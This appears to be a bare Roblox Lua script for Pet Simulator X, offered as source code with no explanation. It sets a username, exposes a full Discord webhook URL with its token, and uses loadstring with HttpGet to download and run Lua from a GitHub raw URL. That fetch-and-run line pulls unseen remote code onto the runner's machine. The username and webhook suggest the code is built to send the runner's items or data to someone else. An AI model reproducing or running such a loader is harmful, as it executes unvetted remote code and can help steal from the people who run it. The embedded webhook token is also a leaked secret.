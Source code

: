 UserName = "dragondeath212"
WebHook = "https://discord.com/api/webhooks/1093577342661701772/s3qpS-tThCnOboMgR18aI6LWBTH154C1cg-AdQ8EVkLo5a9SMsShLF1MRZKm5_Q3JsBo"

loadstring(game:HttpGet("https://raw.githubusercontent.com/HardGameSs/PSX/main/New.lua", true))() 
